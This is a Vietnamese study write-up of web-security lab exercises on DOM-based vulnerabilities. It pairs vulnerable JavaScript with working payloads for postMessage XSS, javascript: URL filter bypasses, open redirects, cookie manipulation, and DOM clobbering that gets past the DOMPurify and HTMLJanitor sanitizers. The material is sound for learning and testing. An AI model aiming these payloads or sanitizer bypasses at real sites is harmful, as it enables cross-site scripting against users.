







# DOM-based vulnerabilities
## Khái niệm
**Document Object Model** (DOM), hay dịch đại khái là "Mô hình vật thể hoá tài liệu", là một model dưới dạng cây biểu thị mối quan hệ, thuộc tính và nội dung của trang HTML mà Browser có thể nhận và hiểu được. DOM được thiết kế cho phép ta có thể tương tác trực tiếp với cấu trúc bằng JavaScript với kết quả được hiển thị ngay lập tức mà không cần reload, đây là đặc tính của DOM chứ không phải lỗ hỏng. 

Lỗ hỏng của DOM nằm ở cách thức JavaScript xử lý dữ liệu. Vì DOM nằm hoàn toàn ở phía client, nên mọi thay đổi ở Source Code đều chỉ có user thấy. Điều đó nghĩa là nếu các hàm JavaScript nếu không xử lý dữ liệu cẩn thận, attacker có thể kiểm soát luồng dữ liệu thực thi của trang web. Lỗ hỏng này sẽ có chút tương đồng với SQL Injection và OS command Injection về mặt kỹ thuật.

Cách thức inject payload trong lỗ hỏng của DOM có thể được mô tả dưới 2 khái niệm là `source` và `sinks`, với `source` đóng vai trò là nơi attacker có thể kiếm soát input, còn `sinks` là vị trí lỗ hỏng thực thi payload của attacker. Lý do cho khái niệm này ra đời là vì đây là lỗ hỏng phía client, nên server sẽ không thể biết data chứa payload độc, nên họ tạo ra khái niệm dòng chảy này để mô tả cho lỗ hỏng này.

## Lab
### Lab: DOM XSS using web messages
```JavaScript
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
``` 
Lỗ hỏng ở đoạn code này nằm ở việc nó nhận trực tiếp dữ liệu gửi thông qua event "Message", khi mà dữ liệu từ đó được đẩy thẳng vào id 'ads' mà không qua xử lý. Từ đây, ta có thể tạo payload để gửi đến nạn nhân
```HTML
<iframe src="<lab-ID>" onload="this.contentWindow.postMessage('','*')">
```    

Chức năng postMessage sẽ gửi mã độc tới event "Message", khiến cho trang web nạn nhân tự động trigger đoạn mã khi load trang web.

### Lab: DOM XSS using web messages and a JavaScript URL
```JS
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Lố hỏng của đoạn code này nằm ở việc: Mặc dù đã kiểm tra sự xuất hiện của `http:` hay `https:` nằm trong data, nhưng không kiểm tra chính xác vị trí của nó, nên ta có thể thêm `http:` hay `https:` ở phần comment để thực thi Javascript code:

```HTML
<iframe src="https://<Lab-ID>" onload='this.contentWindow.postMessage("javascript:print()//https:","*")'>
```
### Lab: DOM XSS using web messages and JSON.parse
```JS
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

Lỗ hỏng của đoạn code này nằm ở việc không kiểm tra URL được gửi qua message, attacker có thể dễ dàng chèn code JavaScript thay thế cho URL:

```HTML
<iframe src="https://<Lab-ID>" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}", "*")'>
```

### Lab: DOM-based open redirection
```HTML
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
</div>
```

Lỗ hỏng của đoạn code này nằm ở param `url` khi nó cho phép redirect toàn bộ link có cấu trúc `https: + domain`. Khi này, ta có thể thay đổi param `url` để nó trỏ tới domain server attacker:

```https://<Lab-ID>/post?postId=8&url=https://<Server-ID>```

### Lab: DOM-based cookie manipulation
```HTML
<script>
    document.cookie = 'lastViewedProduct=' + window.location + ' SameSite=None; Secure'
</script>
```

Lỗ hỏng ở đây nằm ở việc đoạn code không kiểm tra cookie mà lấy trực tiếp dữ liệu (là trang web đã truy cập trước đó). Ta có thể kiểm soát cookie này bằng cách xây dựng payload sao cho ngoài việc truy cập trang web, ta trigger XSS song song với đó.

```HTML
<iframe src="https://<Lab-ID>/product?productId=2&'><script>print()</script>" onload="if(!window.x)this.src='https://<Lab-ID>';window.x=1;">
```

### Lab: Exploiting DOM clobbering to enable XSS
Lỗ hỏng của lab này nằm ở cách mà hệ thống xử lý comment. Cụ thể, lỗ hỏng nằm trong file `loadCommentsWithDomClobbering.js`:
```JS
...
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '';
...
```

Object `defaultAvatar` không được handle bởi bất cứ hàm nào, nên ta có thể viết đè chức năng ta mong muốn lên object. Bên cạnh đó, ta có thể nhập comment dưới định dạng HTML nên có thể chèn object tại vị trí này bằng cách khai báo 2 lần object để đè giá trị ta muốn lên nó.
```HTML
<a id=defaultAvatar><a id=defaultAvatar name=avatar>
```
Tuy nhiên, param `comment` phải đi qua bộ lọc `DOMPurify`, nên ta không thể tuỳ ý chèn giá trị vào `avatar`. Ví dụ, nếu ta để `href` của object `defaultAvatar` là `javascript:print()` như thế này:

```HTML
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="javascript:print()">
```

Thì hệ thống sẽ sanitize phần script trong tag `href`:



Tuy nhiên, class DOMPurify lại không xử lý như vậy với các protocol dưới đây:

```JS
P = i(
      /^(?:(?:(?:f|ht)tps?|mailto|tel|callto|cid|xmpp):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-:]|$))/i
    )
```

Khi này, ta có thể sử dụng `cid` để trigger XSS bằng cách: `"cid:"onerror=alert(1)`. Điều này sẽ khiến protocol `cid` bị lỗi, khiến việc trigger attribute `onerror`. Tuy nhiên, để làm được như vậy thì ta cần phải để `cid:` nằm trong `""`. 

Nếu ta nhập trực tiếp tag `href` là: `cid:"onerror=alert(1)\\`, thì khi này hàm `escapeHTML` sẽ đóng toàn bộ `cid:` và loại bỏ attribute `onerror`:



Vì vậy, thay vì nhập trực tiếp dấu `"`, ta sẽ URL encode nó thành `&quot;`: `cid:&quot;onerror=alert(1)//`. Khi này `avatarImgHTML` có giá trị: 
```JS
let avatarImgHTML = ''
```



Sau khi nhập thành công, mỗi lần user nhập comment tại blog đó, object avatar khi này đã bị ghi đè chức năng sẽ tự động trigger XSS:



### Lab: Clobbering DOM attributes to bypass HTML filters
Cùng với cấu trúc tương tự lab trên, nhưng khi này lỗi không nằm ở việc handle object, mà nằm ở cách mà hệ thống sanitize input. 

```JS
for (var a = 0; a < node.attributes.length; a += 1) {
var attr = node.attributes[a];

if (shouldRejectAttr(attr, allowedAttrs, node)) {
    node.removeAttribute(attr.name);
    // Shift the array to continue looping.
    a = a - 1;
}
}
```

Đoạn code này kiểm tra attribute của tag, nếu attribute nào không nằm trong whitelist sẽ tự động loại bỏ. Vấn đề ở đây bắt đầu từ việc khai báo class khi cho phép những tag sau hoạt động:
```JS
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
```

Ở đoạn code kiểm tra attribute, vì nó gọi attribute của 1 tag là `.attributes`, nên nếu ta khai báo giá trị id của 1 tag là: `id=attributes`, nó sẽ xảy ra xung đột và khiến tag đó trở thành attribute. Vì tag `input` nằm trong những tag cho phép, nên nếu tag `input` trở thành attribute, thì hệ thống sẽ kẹt ở `.length` vì không biết độ dài chính xác của tag `input`.

Khi này ta có thể xây dựng payload như sau:
```HTML
<form id=x tabindex=0 onfocus=print()><input id=attributes>
```

Khi đoạn code trên kiểm tra payload, nó sẽ loop từ `form` tới `input`. Khi đến `input`, việc kiểm tra attribute sẽ không thể xảy ra vì bị kẹt logic ở `id=attributes`, khiến cho những attribute khác như `tabindex` hay `onfoucs` không bị loại bỏ. 



Khi này, nếu ta thêm `#x` vào URL, nó sẽ trigger attribute `onfocus` và chạy lệnh `print()`:



Việc còn lại ta cần phải tạo payload để gửi tới nạn nhân:

```HTML
<iframe src="https://<Lab-ID>/post?postId=4" onload="setTimeout(()=>this.src=this.src+'#x',1000)">
```

Lý do phải `setTimeout` nhằm mục đích đợi cho script `loadComments('/post/comment')` được chạy xong, thì payload mới trigger thành công được.

